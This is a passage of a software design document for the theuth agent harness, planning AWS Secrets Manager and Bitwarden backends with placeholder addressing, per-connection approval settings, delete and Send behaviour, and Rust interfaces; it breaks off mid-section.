

# 221 — External secret backends: AWS Secrets Manager and Bitwarden

Status: design · 2026-11-25 · owner rulings folded in (D1–D7, D13, D16, D17, D20, D22–D26) · not built. Extends `37-secrets.md` (the vault, placeholders, scrub,
`secret_*` tools; its §11 "Extension: backends" is the seam this doc fills and, where the two
disagree, this doc wins for external backends) and `219-always-ask.md` (the override every external
read and write goes through). Reads `216-external-plugins.md` only to reject it as the vehicle (D4).
Every claim about theuth cites `path#Lx-Ly` as of the `design/221-external-secrets` branch point
(`2a60c9af6`); every Bitwarden SDK claim cites `bitwarden/sdk-internal` at the pinned commit
**`2b06afa3b3579af116cd60f83d65b9e411fd2a56`** (2026-11-24, "PAM: Live-server end-to-end suite for
the access connector (#1752)"), written `sdk@2b06afa:path#Lx-Ly`.

theuth's vault (37) holds secrets the agent can *use* through a `{{secret:NAME}}` placeholder but
never *read*. Many users already keep those secrets somewhere else: a company's AWS Secrets Manager,
a personal or family Bitwarden vault. Today the only way to use one is to copy it into theuth by
hand. This doc adds two **external backends**. Through them the agent can:
- use an external secret by reference, with the same "use, never read" guarantee;
- browse external secrets' metadata;
- store a value the user typed into theuth's masked card *into* the external manager;
- share one secret (from Bitwarden or the local vault) through a Bitwarden Send, whose link the
  agent can deliver but never read (§12).

By default every external read, write, delete and Send raises an approval card a human must answer.
Each of those four is a setting per connection, and the user may turn any of them off (D6, D20).
Two things are not permissions but how the vault works, and they apply to external secrets
unchanged: the model never receives a value, and values are scrubbed from tool output (D21).



## 0. What exists today, what does not

| Piece | Today | Cite |
|---|---|---|
| Backend seam | Designed only: a `Backend` trait with `id/list/get/set/delete` and `RegisterBackend`, "v1 contract, not v0 code". v0 ships the name reservation, `back` in the API and `SecretInfo.source` | `docs/design/37-secrets.md#L743-L782` |
| Name reservation | A local name is `[A-Za-z0-9_.-]{1,64}`; `/` "is reserved for backends (37 §11)" | `crates/secrets/src/vault.rs#L237-L244`, `docs/design/37-secrets.md#L116-L123` |
| `SecretInfo.source` | "Backend; always `local` in v0"; `secret_list` fills `"local"` | `crates/secrets/src/vault.rs#L87-L106`, `crates/secrets/src/tools.rs#L883` |
| Reserved `/` families | `oauth/`, `mesh/`, `sandbox/`, `share/`, `plugins/`: written only through `Vault::set_if_version`, never listed, never expandable | `crates/secrets/src/vault.rs#L246-L266`, `#L276-L290` |
| Listing hides `/` rows | `list()` filters every name containing `/` | `crates/secrets/src/vault.rs#L721-L731` |
| Placeholder grammar | `\{\{secret:([A-Za-z0-9_.\-]+)(?::-([1-4]))?\}\}`. A `/` does not match, so `{{secret:bw/x}}` stays literal text today. 37 §3.1 promised "unknown secret" | `crates/secrets/src/vault.rs#L47-L48`, `docs/design/37-secrets.md#L196-L212` |
| Expansion | `Vault::expand` is **synchronous**, over the in-memory copy; `lookup` fails on an unknown name, an expired value or a missing version | `crates/secrets/src/vault.rs#L902-L938`, `#L1242-L1266` |
| Hook in `tools` | `trait Secrets { expand, redact, redact_value, redact_spans, max_literal_len }`, all sync; a process global `install` | `crates/tools/src/secrets.rs#L20-L104` |
| Where expansion runs | In the async `invoke`, after the approval and before `tool.call`, only when `tool.consumes_secrets()`; `redact_output` on every arm | `crates/tools/src/registry.rs#L3515-L3523`, `#L3599-L3600` |
| Gate | `mentions` (placeholder in args, consuming tool) → at least `Ask`; `always(…, protected)` → `Ask` that no switch rewrites; owner absent → `Deny` | `crates/tools/src/registry.rs#L1849-L1883`, `#L1890-L1894`, `#L3363-L3368` |
| Always-ask matching | Tool name or `mcp:<server>` key in the global, session or ancestor sets | `crates/tools/src/registry.rs#L1552-L1576` |
| Always-ask RPC | `get_always_ask` / `set_always_ask(session, tool, on)`. Removal needs the owner's press, else a human-only card | `crates/agent/src/rpc_tooling.rs#L118-L136`, `docs/design/219-always-ask.md#L58-L64` |
| Per-call risk raise | `Tool::CREDENTIALED` / `credentialed(session, args)`: the call is gated as at least `Mutating` | `crates/tools/src/lib.rs#L415-L433` |
| Masked collection | `secret_request` (one value or a form of ≤ 16 fields, optional `expires`), `SecretsEvent::Requested`, `answer_secret` from any engine | `crates/secrets/src/tools.rs#L153-L174`, `crates/secrets/src/lib.rs#L270-L310`, `crates/secrets/src/rpc.rs#L29-L40` |
| Replication | `vault`, `vault_current`, `secret_requests` replicate; `meta` is local only; values are sealed under the shared mesh key | `crates/secrets/src/store.rs#L17`, `crates/secrets/migrations/0001_secrets.sql#L1-L25`, `crates/secrets/src/vault.rs#L1-L11` |
| Engine-local secret precedent | `plugins/grants-key` lives in `meta`, sealed with this engine's key, "because vault rows replicate across the mesh" | `crates/secrets/src/vault.rs#L268-L271`, `#L567-L583` |
| AWS profiles | `AwsProfiles { profiles, selected, default_profile }` from `aws_config::profile::load`; `ListAwsProfiles` / `SetAwsProfile` persist `agent.aws_profile` for Bedrock | `crates/agent/src/aws.rs#L1-L64`, `crates/agent/src/supervisor.rs#L10588-L10622`, `#L12327-L12348` |
| AWS crates | `aws-config = "1"` (lock: 1.13.0, which pulls `aws-sdk-sso` 1.119 and `aws-sdk-ssooidc` 1.121). **No `aws-sdk-secretsmanager`** | `Cargo.toml#L243`, `Cargo.lock#L1698-L1699`, `#L1790-L1791`, `#L1815-L1816` |
| HTTP/TLS | `reqwest 0.13`, rustls, no native-tls | `Cargo.toml#L213` |
| Secrets UIs | Desktop page `/secrets` (`library/Secrets.tsx`), `SecretRequestCard`, Settings › Approvals' always-ask section; TUI `/secrets` | `crates/desktop/ui/src/components/library/Secrets.tsx#L27`, `crates/desktop/ui/src/components/chat/SecretRequestCard.tsx#L101-L142`, `crates/desktop/ui/src/components/settings/Approvals.tsx#L32-L87`, `crates/tui/src/components/secrets.rs#L12`, `crates/tui/src/model/slash.rs#L225` |

What does not exist: any backend trait in code, any network-backed secret, an async step before
expansion, a way to gate by *what* a placeholder points at (rather than by tool), and a masked card
whose answer goes anywhere but the local vault.

## 1. Decisions

Each says what it beat. D1–D7 are the owner's and are fixed. D8 onward are this doc's. D16–D19
(Bitwarden Send, an owner requirement added the same day) are in §12.1.

**D1 — Two backends now: AWS Secrets Manager and Bitwarden Password Manager (owner).** Bitwarden
here means the personal/organisation vault (logins, secure notes, custom fields). It is **not**
Bitwarden Secrets Manager (machine accounts, projects). The trait (§4) is written for both and should
fit a third backend. Nothing else is in scope.

**D2 — Bitwarden works against the official cloud (US and EU) and self-hosted servers (official
self-host and Vaultwarden) (owner).** The server URLs (base, api, identity) are config on each
connection, with presets `us` (`vault.bitwarden.com`), `eu` (`vault.bitwarden.eu`) and `self_hosted`
(one base URL, from which `/api` and `/identity` are derived, each overridable). §6.2.

**D3 — Bitwarden runs in process, in Rust, on the official `bitwarden/sdk-internal` crates, under the
GPL-3.0 option of their dual licence (owner).** It is a git dependency pinned to one commit
(`2b06afa`), because `bitwarden-pm` / `bitwarden-vault` at current versions are not on crates.io and
the README says the Password Manager interface is unstable and changes without warning (§5.9). The
SDK sits behind theuth's own `ExternalBackend` trait (§4), so an SDK bump touches one module. It lives
in its own crate, `crates/secrets-bitwarden`, behind a cargo feature `bitwarden` on the binary,
because the SDK workspace is large (§5.10). theuth is open source, and linking GPL-3.0 code is
accepted. The licence consequence for the distributed binary is recorded in §11.

**D4 — Rejected (owner), with reasons:**
- *Shelling out to the `bw` CLI or `bw serve`.* An external CLI is out of the question: a Node
  runtime to install and keep current, a session key passed through env or argv, and a local HTTP
  server (`bw serve`) that anything on the box can call.
- *An external plugin (216) in JS or Python.* Every JS or Python Password Manager library is one of
  three things: the same Rust core compiled to wasm, a wrapper around `bw`, or Secrets-Manager-only.
  So a plugin adds a process and a language and gains nothing. Worse, the plugin process would hold
  the decrypted vault key, and secret values would cross the plugin boundary. 216 deliberately makes
  `plugins/` vault rows non-expandable (`crates/secrets/src/vault.rs#L263-L266`), so a plugin-backed
  placeholder would have to break that rule.
- *`rbw`.* Unofficial, MIT, its library API is unstable, and its last release was 2025-12-31. It is
  recorded as the fallback if the SDK pin becomes unworkable (§11 says
  when we would reach for it).
- *The `bitwarden` crate 2.1.0 on crates.io.* It covers the Secrets Manager product only.

**D5 — AWS reuses the existing profile selection; `aws-sdk-secretsmanager` is added (owner).** A
connection names a profile from the same `aws_config::profile::load` list the Bedrock picker shows
(`crates/agent/src/aws.rs#L31-L51`), plus a region. Today only `aws-config` is a dependency
(`Cargo.toml#L243`). This doc adds `aws-sdk-secretsmanager = "1"` to `[workspace.dependencies]`,
with the default features off except `rustls` and `rt-tokio`, matching how `aws-config` is used. The
profile list moves out of `agent` so the backend crate can share it without depending on `agent`
(§6.1, B1).

**D6 — Every external read, write, delete and Send is always ask (219) by default; each is a
setting (owner).** The user can turn any of them off in Settings. The mechanism is 219's own, with no
second gate (D10). The knob is **per connection and per direction**: up to four always-ask entries
per connection, seeded harness-wide when the connection is created (D10, §8):
- `secret:<backend>/<conn>:read`
- `secret:<backend>/<conn>:write`
- `secret:<backend>/<conn>:delete`
- `secret:bw/<conn>:send` (Bitwarden only)

Why this granularity:
- *Per connection, not per backend.* A scratch AWS account and the user's personal Bitwarden carry
  different risk, and the user can tell them apart.
- *Per direction.* Reads (placeholder expansion) are the frequent, exfiltration-shaped operation.
  Writes are rare and visible. Deletes destroy, and Sends hand a secret out, so each gets its own
  switch. The user then never has to loosen one to make another convenient.
- *Not per secret.* That would be a policy language (37 D4 rejected a second policy). A user who wants
  one secret un-asked imports it into the local vault (`secret_external_import`, §7) and gets 37's
  rules for it.

**D7 — Secrets can be collected through the UI and stored into the external manager (owner).** The
`secret_request` card (masked fields) gains a destination: AWS name/path, region (from the
connection), profile (from the connection), optional KMS key, and JSON key/value vs plain string;
Bitwarden organisation / collection / folder, item type (login, secure note, custom fields) and which
field. The agent never sees values, exactly as with the local vault. §7.3, §9.3.

**D8 — Addressing: `{{secret:<backend>/<conn>/<ref>[#<key>]}}`, resolved on the engine that runs the
tool.** §3. `aws/<conn>/<secret-name>[#json-key]` and `bw/<conn>/<item-uuid>[#field]`. The backend id
and the connection name come first, so a reader of the approval card knows which manager and which
account before anything else. The local namespace is unchanged: an unprefixed name is still
`local`. Rejected:
- *Bitwarden by item name.* Names are not unique, and they change.
- *AWS by ARN.* An ARN repeats the region and account that the connection already fixes, and it is
  60+ characters on every card.
- *A backend-less `conn/ref`.* It saves three characters and makes `aws/…` vs `bw/…` ambiguous the
  day a connection is named `aws`.

**D9 — Placeholders may expand external references, through a new async resolve step, and no
external value is cached across calls.** §3.3. Each use fetches (AWS) or decrypts from the last sync
(Bitwarden, §5.4) once per call, after the approval. The value joins the scrub set for the life of
the process (37 §11 already said so). Rejected:
- *Import-only (the agent must copy a value into the local vault before using it).* It doubles every
  value, so the external manager stops being the truth on the first rotation.
- *A value cache with a TTL.* It would hold plaintext between uses, and the approval card would then
  approve a stale value without saying so.

**D10 — The always-ask entries are ordinary 219 entries in `tools.always_ask`, matched against the
external references a call touches, not against tool names.** 219 already has keys that are not tool
names (`mcp:<server>`, `docs/design/219-always-ask.md#L22-L30`); `secret:…` is a third family. This
choice gives, for free:
- one list in Settings › Approvals;
- the per-chat scope;
- removal guarded by the human press (219 §2.4);
- `owner_absent` → Deny;
- a human-answered card, which the double never answers.

The registry computes a call's `external: Vec<ExternalAccess>` from its args through the
`tools::secrets` hook and ORs `external_always` into `always()` next to `protected`
(`crates/tools/src/registry.rs#L1890-L1894`). Rejected:
- *A `secrets.external.<conn>.ask: always|policy` config key with its own check.* That is a second
  gate, and it fails 219's "single choke point" (219 §2.2).
- *Marking the `secret_external_*` tool names always-ask.* A placeholder in `shell` is an external
  read whose tool is `shell`, and tool names cannot tell one connection from another.

**D11 — Connection config lives in `config.yaml`; connection credentials and the unlocked state never
replicate.** §6, §10.
- *Config.* `secrets.connections` holds non-secret settings: profile, region, server URLs, email,
  default destination. It is engine-local and human-editable.
- *Credentials.* Bitwarden's `client_secret`, and the sealed user key when `remember_unlock` is on
  (D12), sit in the engine-local `meta` table, sealed with this engine's key (the
  `plugins/grants-key` precedent, `crates/secrets/src/vault.rs#L567-L583`), under names
  `ext/<backend>/<conn>/<key>`.
- *Unlocked state.* The Bitwarden user key is memory only unless the user turns on
  `remember_unlock` (D12).

Rejected:
- *Vault rows.* Those replicate to every paired engine (`crates/secrets/src/store.rs#L17`). That
  would make every engine a Bitwarden "device" holding the user's API key, and widen a single
  stolen-laptop compromise to the whole vault for no benefit, since each engine needs its own
  login anyway.
- *Keychain items per connection.* A second root of trust beside the vault key.

**D12 — Bitwarden: personal API key for login, master password for unlock, user key in memory only,
auto-lock on idle.** §6.2. API-key login skips 2FA and new-device verification
(§5.2), which a headless daemon cannot answer gracefully. Password login with 2FA is offered for users
who cannot create an API key (some org policies), via a masked card that also carries the 2FA code.
The master password is typed into a masked **unlock card** and is never stored. By default the
derived user key lives only in the SDK client's key store and is dropped on lock.

A per-connection setting **`remember_unlock`** (default `false`) seals the user key in `meta` under
the engine key, via `get_user_encryption_key` and `InitUserCryptoMethod::DecryptedKey` (§5.3), so a
restart needs no master password. The Settings row states the cost: with it on, the Bitwarden vault
on this machine is only as strong as the engine key (keychain, or a 0600 file on keychain-less
servers), not the master password plus KDF. Idle lock (`lock_after_idle_secs`, default 900) and
`lock_on_sleep` (default `true`) are settings too. Rejected:
- *Storing the master password.* The sealed user key gives the same convenience without keeping the
  one secret that also unlocks the user's account everywhere.

**D13 — Delete exists, recoverable by default, with its own ask direction (owner, 2026-11-25).** It is
offered as the `secret_external_delete` tool, a UI button and an RPC. Delete is under the `delete`
direction (`secret:<b>/<c>:delete`, always ask by default, D6). It is recoverable unless the user
turns permanent deletion on:
- *AWS.* `DeleteSecret` with `RecoveryWindowInDays` as a parameter (7–30, default 30).
  `ForceDeleteWithoutRecovery` is used only when the call asks for `permanent: true` **and** the
  connection's `allow_permanent_delete` is on (default `false`). `RestoreSecret` undoes a scheduled
  delete from the Secrets page.
- *Bitwarden.* Move to trash, via `ciphers().soft_delete` → `PUT /ciphers/{id}/delete`
  (`sdk@2b06afa:crates/bitwarden-vault/src/cipher/cipher_client/delete.rs#L118`). `ciphers().delete`
  → `DELETE /ciphers/{id}` (`#L96`) is used only with `permanent: true` and `allow_permanent_delete`
  on. `ciphers().restore` (`restore.rs#L108`) undoes a trash.

This reverses the first draft's "no delete anywhere", which took the choice away from the user. The
local vault gets the same treatment in D24.

**D14 — Values never reach the model, and `secret_request` with a destination is at least
`Mutating`.** The `secret_external_*` tools return metadata, receipts and references (§7). A
`secret_request` that names a destination uses the existing per-call raise (`CREDENTIALED`,
`crates/tools/src/lib.rs#L415-L433`). It does act with the user's credentials, so a subagent capped
at `read_only` cannot write to Bitwarden through it.

**D20 — Everything gating is a setting with a safe default (owner, 2026-11-25: "Don't make anything
that can't be turned off. It's up to the user, not up to you.").** Each line is a setting and its
default. Loosening any of them from the agent's side follows 219 §2.4: a desktop or iOS press applies
directly; any other caller gets a human-only card. Tightening is never gated. Per connection
(`secrets.connections.<conn>.…`) unless marked harness-wide.

Ask directions (219 entries in `tools.always_ask`, §8):
- `secret:<b>/<conn>:read` — present (always ask).
- `secret:<b>/<conn>:write` — present (always ask).
- `secret:<b>/<conn>:delete` — present (always ask).
- `secret:bw/<conn>:send` — present (always ask). It replaces the first draft's fixed `HUMAN_ONLY`
  on Send creation.

Who may answer:
- `send_owner_only` — `true`: a Send's card is answerable only by the owner in person (the
  `HUMAN_ONLY` behaviour), now switchable.

Delete:
- `allow_permanent_delete` — `false`.
- `delete_recovery_days` (AWS default window) — `30`.

Locking and unlock:
- `remember_unlock` — `false`.
- `lock_after_idle_secs` — `900`.
- `lock_on_sleep` — `true`.
- `agent_may_request_login` — `false`: when `true`, a logged-out connection raises the login card
  for the agent's call instead of failing.

What references may reach:
- `expose_password_history` — `false`: `bw/…#password:-N` reaches the login's password history.
- `expose_totp_seed` — `false`: `#totp-seed` expands the seed, not only the current code.
- `write_scope` — `personal`: `personal_and_org` lets creates and updates target organisation
  collections.
- `mcp_config_refs` — `false`: `{{secret:aws/…}}` / `{{secret:bw/…}}` in `mcp/*.json` expand at
  connect time. This works only while that connection's `read` direction is not always ask, because
  nobody is there to answer a card.

Sends:
- `manage_all_sends` — `false`: list and revoke Sends theuth did not create.
- `send_link_to_agent` — `false`: the Send receipt carries the link itself (the link is a stand-in,
  D23).
- `send_max_file_mb` (harness-wide) — `100`; the ceiling is the server's limit (§12.6).

Copying a link and revealing values:
- `copy_link_needs_press` (harness-wide) — `true`: `copy_send_link` from a non-press caller raises a
  human-only card.
- `allow_reveal` — `true`: the owner's Reveal action on this connection's values (D25).

Local vault:
- `secret_delete` — present in `tools.always_ask` (always ask), seeded once (D24).

Not settings, and why. These are capabilities, not permissions:
- Duo and WebAuthn 2FA (need a browser);
- plain-HTTP servers in release builds and certificate bypass (the SDK's HTTP client enforces
  HTTPS and is not injectable, §5.1);
- binary AWS secrets;
- vault item types other than Login and Secure Note.

None of them is a choice theuth makes for the user.

**D21 — How the vault works (invariants, not gates).** Two properties of 37 carry over unchanged to
external secrets. They are how the vault is built, not permissions a setting toggles:
- **No secret value reaches the model.** A *secret value* is what a reference resolves to: a local
  vault version, or an AWS secret, JSON key or Bitwarden field. Tools take references and return
  metadata and receipts. Values move inside the harness, and to the owner's own eyes through Reveal
  (D25), never to the agent (37 D1).
  - A Bitwarden **Send link is not a secret value**. It is a stand-in (D23): a revocable, expiring,
    count-limited handle the user approved handing out.
  - Because of that, it is stored and scrubbed like a vault value by default, and
    `send_link_to_agent` may give it to the model without touching this invariant.
- **Known values are scrubbed from tool output** (37 D3, §11 here). This covers every vault value,
  including Send links stored there.
  - With `send_link_to_agent` on, the link is not written to the vault at all, so the scrub has
    nothing to rewrite (D23).

The always-ask cards, `HUMAN_ONLY`-style answering and the risk levels are permissions, and they are
all in D20.

**D22 — Release binaries ship with Bitwarden and are GPL-3.0 works (owner, 2026-11-25).** The
published desktop app and the `t` releases build with `--features bitwarden`. Linking the
`sdk-internal` crates under their GPL-3.0 option makes those binaries GPL-3.0 works.
- Release packaging (milestone B10) ships the GPL-3.0 text, a NOTICE and third-party notices for the
  `sdk-internal` crates and their dependency tree.
- theuth's own source licence is GPL-3.0-or-later (D26). The repo has no `LICENSE` file and no
  `license` field in `Cargo.toml` today; B10 adds them.
- Builds without the feature stay as they are.

**D26 — theuth's own source is licensed GPL-3.0-or-later (owner, 2026-11-25).**
- `LICENSE` carries the GPL-3.0 text.
- `license = "GPL-3.0-or-later"` goes in `[workspace.package]` and in every crate.
- The release binaries are GPL-3.0 works (D22). The "or later" applies to theuth's own code. The
  linked `sdk-internal` crates stay `GPL-3.0-only OR LicenseRef-Bitwarden-SDK`, used under GPL-3.0
  only, which is compatible.

**D23 — A Send link is a stand-in, not a secret value (owner, 2026-11-25).** The link is the thing the
user approved giving away, so D21's "no secret value reaches the model" does not cover it.
`send_link_to_agent` stays a per-connection setting, default `false`. With it off, the link lives
in the vault and the agent holds a placeholder (D18). With it on, the link is **not** written to
the vault. It is kept in its `external_sends` row, sealed with the engine key (for Copy link,
`copy_send_link`), and the receipt carries it in plain text. It then enters the transcript like any
text the agent was given, which is what the user chose.

**D24 — The agent may delete a local vault secret: `secret_delete` (owner, 2026-11-25).** This changes
design 37's rule that only the user deletes:
- 37 D5 rejects a `secret_delete` tool ("the user deletes, and deletion is the one operation
  versions cannot undo", `docs/design/37-secrets.md#L74-L77`);
- 37 §3.2 says "Deletion is the user's" (`#L280`);
- the `Delete` command is "User surfaces only" (`#L324`; in code, "the model has no delete",
  `crates/secrets/src/lib.rs#L167-L172`);
- 37 §12 lists the tool as not built (`#L790`).

`secret_delete` is risk `Destructive` and always ask by default through an ordinary 219 entry
`secret_delete` in `tools.always_ask`. It is seeded once at first start after this lands (a `meta`
stamp `seeded/secret_delete`), so a user who removes it keeps it removed. Its behaviour is exactly
`Vault::delete` (`crates/secrets/src/vault.rs#L846-L849`):
- the name and **every kept version** go in one transaction, and the deletion replicates across the
  mesh like any vault row;
- there is no trash and no restore, because the vault has none;
- the tool says so on the card and in its description.

The reserved `/` families (`oauth/`, `mesh/`, `sandbox/`, `share/`, `plugins/`) and Send link
secrets are refused; Sends are revoked with `secret_send_revoke` instead. §7.6.

**D25 — Reveal for external values, on by default (owner, 2026-11-25).** The owner's UI gets a
**Reveal** action on external values.
- *Where.* The desktop Secrets page, and the same page wherever it is served: a browser tab against
  the engine, or iOS over the relay.
- *Setting.* A per-connection `allow_reveal` (default `true`) turns it off.
- *Who sees it.* The value goes to the owner's screen only. The press is the consent, so there is no
  approval card.
- *Who may call it.* `reveal_external_secret` serves only an owner press, as 219 §2.4 defines it:
  authenticated, not a share guest, not the internal connection. Every other caller gets an error,
  not a card: the internal connection is where the agent's halves live, and a value returned there
  would reach the agent. That refusal is how D21 is enforced, not a permission.
- *TUI.* The TUI talks over the internal connection, so it has no Reveal. Its rows say "reveal in
  the desktop app".
- *Audit.* Every reveal is logged (§11).
- *Local vault.* Reveal of local vault values is not part of this decision; 37 is unchanged there.

**D15 — Connection operations run on the engine that owns the connection; answers are forwarded,
never replicated.** A `secret_request` answered on another engine's app reaches the asking engine
over the existing forward path (`crates/agent/src/rpc_forward.rs#L369`). The answer is not written
as a replicated staging row (§10).

## 2. Facts relied on

- **AWS Secrets Manager** (`aws-sdk-secretsmanager` 1.x; API names from the service model):
  - `ListSecrets` (filters `name`, `description`, `tag-key`; paginated) and `DescribeSecret`
    (`VersionIdsToStages`, `LastChangedDate`, `KmsKeyId`, tags) return metadata without values.
  - `GetSecretValue(SecretId, VersionId | VersionStage)` returns `SecretString` or `SecretBinary`,
    plus `VersionId` and `VersionStages`.
  - `CreateSecret(Name, SecretString, KmsKeyId?, Description?, Tags?, ClientRequestToken)` creates
    a secret. `PutSecretValue(SecretId, SecretString, ClientRequestToken)` adds a version that
    becomes `AWSCURRENT`; the old one becomes `AWSPREVIOUS`.
  - A secret name allows `[A-Za-z0-9/_+=.@-]{1,512}`.
  - `ClientRequestToken` makes create and put idempotent, so a retried call does not add a second
    version.
  - `DeleteSecret(SecretId, RecoveryWindowInDays 7–30 | ForceDeleteWithoutRecovery)` schedules or
    performs deletion. `RestoreSecret(SecretId)` cancels a scheduled one.
- **`aws-config` 1.13** resolves a named profile, including `sso_session` profiles. It refreshes an
  SSO access token through `aws-sdk-ssooidc` (already in the lock) while the refresh token is valid.
  It does **not** perform the first device-authorisation login. An expired SSO session surfaces as a
  credentials-provider error, so the user runs their usual `aws sso login` outside theuth (§6.1).
- **Bitwarden Password Manager**: see §5. Every SDK fact there cites `sdk@2b06afa`.
- **theuth**: `invoke` is async and expansion already sits in it
  (`crates/tools/src/registry.rs#L3515-L3523`), so an awaited resolve step before the sync `expand`
  needs no actor redesign. The registry's `gate` runs in the actor's `Message<Invoke>` handler
  (`#L3252-L3264`) and must stay synchronous and cheap. The external-access computation is a parse of
  the args, not I/O.

## 3. Addressing and placeholders

### 3.1 Grammar

```
{{secret:NAME}}                       local, current        NAME = [A-Za-z0-9_.-]{1,64}         (37, unchanged)
{{secret:NAME:-N}}                    local, N back         N ∈ 1..=4                            (37, unchanged)
{{secret:aws/CONN/SECRET}}            AWS, AWSCURRENT, whole SecretString
{{secret:aws/CONN/SECRET#KEY}}        AWS, AWSCURRENT, top-level JSON key KEY (string, number or bool → text)
{{secret:aws/CONN/SECRET:-1}}         AWS, AWSPREVIOUS (only :-1; the stage, not a count)
{{secret:bw/CONN/ITEM}}               Bitwarden, login password (login items) or notes (secure notes)
{{secret:bw/CONN/ITEM#FIELD}}         Bitwarden, FIELD ∈ password | username | totp | notes | uri | field:<custom name>
```

- `CONN` = `[a-z0-9-]{1,32}`, unique per engine across both backends.
- `SECRET` = AWS's name alphabet minus `#`, `:` and `}` (`[A-Za-z0-9/_+=.@-]{1,512}`, which has
  none of them). Slashes in AWS names (`prod/db/password`) are allowed: everything after `aws/CONN/`
  up to `#`, `:-1` or `}}` is the name.
- `ITEM` = a canonical lowercase UUID (`CipherId`, §5.5).
- `#totp` expands to the **current TOTP code**, which the SDK generates from the stored seed (§5.5),
  never the seed itself. `#field:<name>` takes the first custom field with that exact name. A
  `boolean` field expands to `true`/`false`; a `linked` field is followed to its target.
- `:-N` on Bitwarden: with `expose_password_history` on (D20), `#password:-N` (N ∈ 1..=4) is the
  login's N-th `passwordHistory` entry. Otherwise it is an error (`bw/personal does not expose
  password history; Settings › Secrets › personal`). Other fields have no history in Bitwarden.
- `#totp-seed` expands the stored seed when `expose_totp_seed` is on (D20). Otherwise it is an
  error.

The new placeholder regex (one, `crates/secrets/src/vault.rs` `PLACEHOLDER`) is

```
\{\{secret:(?:([A-Za-z0-9_.\-]+)/([A-Za-z0-9/_+=.@\-]{1,600}?)(?:#([^}]{1,128}?))?|([A-Za-z0-9_.\-]+))(?::-([1-4]))?\}\}
```

*As built:* broader than the draft (`(aws|bw)/([a-z0-9-]{1,32})/…{1,512}`). Any `x/…` matches the
external branch (group 1 any backend id, group 2 `CONN/REF` up to 600), and
`crates/secrets/src/external.rs` `parse_ref` checks the backend, the connection name and the
reference, so an unknown backend or a bad connection is an error rather than literal text. Group 3
(`#KEY`) takes any text up to `}`; `parse_ref` splits `#key` / `#field:NAME`.

`mentions` (`crates/tools/src/secrets.rs#L52-L61`) stays the cheap `contains("{{secret:")` scan: it
already matches external references.

### 3.2 Reserved names

| Prefix | Rule | Why |
|---|---|---|
| `aws/`, `bw/` | **Placeholder namespaces, never vault rows.** `writable_name` already refuses them (no `/` family lists them, `crates/secrets/src/vault.rs#L276-L290`); add a unit test that pins it | A vault row named `bw/x/y` would shadow an external reference |
| `ext/` | `meta` keys only (`ext/<backend>/<conn>/<key>`), sealed with the engine key, never a vault row, never listed, never expandable | D11 |
| any future backend id | Added to the table and to the regex's alternation in the same change | One list, one place |

The 37 §3.1 promise ("v0 returns unknown secret" for `BACKEND/NAME`) becomes: an `aws/` or `bw/`
reference to a connection this engine does not have fails the call with `unknown connection
bw/personal on this engine; secret_external_list shows the connections`. Any other `x/…` form fails
with `unknown secret backend x`. Today such text passes through literally (§0), which is a silent
footgun; the new regex closes it.

### 3.3 Resolution: where the network call happens

`Secrets` (`crates/tools/src/secrets.rs#L20-L41`) gains two methods, both with no-op defaults so the
trait stays implementable without backends:

```rust
/// Which external references `args` names, and in which direction this call uses them. Sync, no I/O:
/// a parse. The registry ORs `external_always` of these into `always()` (D10). `tool` lets the
/// `secret_external_*` tools declare a write (their args name a destination, not a placeholder).
fn external_access(&self, tool: &str, args: &serde_json::Value) -> Vec<ExternalAccess> { Vec::new() }

/// Fetch every external reference in `args` (after the approval, before `expand`). The values go
/// into `fetched`, which `expand_with` reads; each joins the scrub set before this returns.
/// Err = unknown connection, locked and not unlocked in time, not found, denied by the provider,
/// timeout. Then the call fails whole, as 37 §3.1 says for a local miss.
fn resolve_external<'a>(&'a self, args: &'a serde_json::Value, cx: ResolveCx)
    -> BoxFuture<'a, Result<Fetched, String>> { Box::pin(async { Ok(Fetched::default()) }) }
```

```rust
#[derive(Clone, Debug, PartialEq, Eq, Hash)]
pub struct ExternalAccess { pub backend: &'static str, pub conn: String, pub dir: Direction }
#[derive(Clone, Copy, Debug, PartialEq, Eq, Hash)] pub enum Direction { Read, Write }
impl ExternalAccess { pub fn always_ask_key(&self) -> String { format!("secret:{}/{}:{}", self.backend, self.conn, self.dir) } }
pub struct ResolveCx { pub session: SessionId, pub call_id: String }
/// `(placeholder text) → value`; zeroized on drop; never Debug-printed.
#[derive(Default)] pub struct Fetched(HashMap<String, Zeroizing<String>>);
```

The `invoke` site (`crates/tools/src/registry.rs#L3515-L3523`) becomes:

```rust
if tool.consumes_secrets() {
    let fetched = match crate::secrets::resolve_external(&call.args, ResolveCx { … }).await {
        Ok(f) => f, Err(e) => return ToolOutput::err(e),
    };
    if let Err(e) = crate::secrets::expand_with(&mut call.args, &fetched) { return ToolOutput::err(e) }
}   // `fetched` dropped (zeroized) here, before `tool.call`'s output is built
```

`Vault::expand` gains a `&Fetched` argument. It replaces an external placeholder from the map and
fails on one missing from it, which is a bug guard: `resolve_external` fills every reference first.
Callers without external support (`mcp::expand` at connect time, 37 §3.4) pass `&Fetched::default()`.
**External references in `mcp/*.json`** expand at connect time only when the connection's
`mcp_config_refs` is on and its `read` direction is not always ask (D20). An MCP server connects
unattended, and nobody is there to answer a card. Otherwise the error names both the setting and the
local-vault import.

### 3.4 Interaction with always-ask and caching, stated once

1. The gate (sync, actor) asks `external_access(tool, args)` and computes `external = any access
   whose always_ask_key is in the global / session / ancestor sets`. `always()` becomes
   `protected || external || always_ask_applies(…) || …`. The card carries `always_ask: true`.
   `owner_absent` → Deny with 219's text (`crates/tools/src/registry.rs#L1932-L1946`).
2. A read the user has set to policy (entry removed) still gets 37 §0.4's `mentions` → `Ask`, which
   `/approvals off` silences. External placeholders then behave exactly like local ones.
3. After Allow, `resolve_external` fetches. A locked Bitwarden connection raises the **unlock card**
   (§9.4) and waits up to `secrets.request_timeout_secs`. There are two cards because they ask two
   different things: "may this call use it" and "type your master password".
4. Values: fetched per call, never cached as values. They join the scrub set for the life of the
   process, `Zeroizing` (§11). Bitwarden *metadata* (the synced cipher list, encrypted at rest in
   memory as the SDK holds it) is cached between syncs (§5.4). AWS metadata (`ListSecrets` pages) is
